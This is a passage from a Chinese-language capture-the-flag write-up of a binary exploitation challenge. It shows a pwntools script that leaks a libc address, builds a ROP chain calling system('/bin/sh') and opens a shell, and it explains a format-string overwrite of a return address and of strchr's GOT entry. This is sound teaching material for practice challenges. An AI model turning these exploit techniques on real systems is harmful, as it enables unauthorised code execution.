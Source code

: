 ```python
pause()

libc_base = u64(r.recvuntil(b'\x7f')[-6:].ljust(0x8,b'\0'))-libc.sym["fgets"]
system_addr = libc_base+libc.sym["system"]
#pause()
r.sendline(b'/bin/sh\x00'+b'a'*0x10+p64(pop_rdi+1)+p64(pop_rdi)+p64(stack_addr)+p64(system_addr))

qwq(stack_addr)
qwq(libc_base)
r.interactive()
```

#### 第一处payload的解释

查看一下`payload`里面具体更改的参数在哪里

![](/images/idek2022/7.png)

更改之后

![](/images/idek2022/8.png)

这样就可以通过格式化字符串来控制程序的执行流，比如返回地址，`strchr`的got表的里的内容。比如把`sprintf`的返回地址修改为`0x401209`即重新回到`vuln`函数，修改`strchr`的got表为ROP的地址(`pop r15,ret`)
